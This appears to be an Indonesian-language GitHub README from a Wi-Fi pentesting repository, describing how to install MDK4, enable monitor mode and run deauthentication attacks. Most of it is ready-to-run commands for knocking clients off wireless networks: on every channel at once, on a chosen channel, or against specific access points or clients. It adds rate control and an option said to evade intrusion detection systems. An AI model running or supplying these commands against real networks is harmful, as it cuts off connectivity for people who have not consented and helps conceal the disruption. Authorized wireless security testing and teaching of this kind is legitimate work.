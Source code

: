 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk4 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev git
   git clone https://github.com/aircrack-ng/mdk4
   cd mdk4
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi di semua channel:

      ```
      sudo mdk4 [interface] d -c h
      ```

      Opsi `-c h` mengaktifkan channel hopping pada semua channel `b/g` (1–14). Secara default `MDK4` berpindah antar channel setiap 3 detik.
   2. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   3. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```
      
      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   4. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   5. Speed control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```

      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   6. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```

      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   7. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   8. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   9. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   10. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```
      
      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
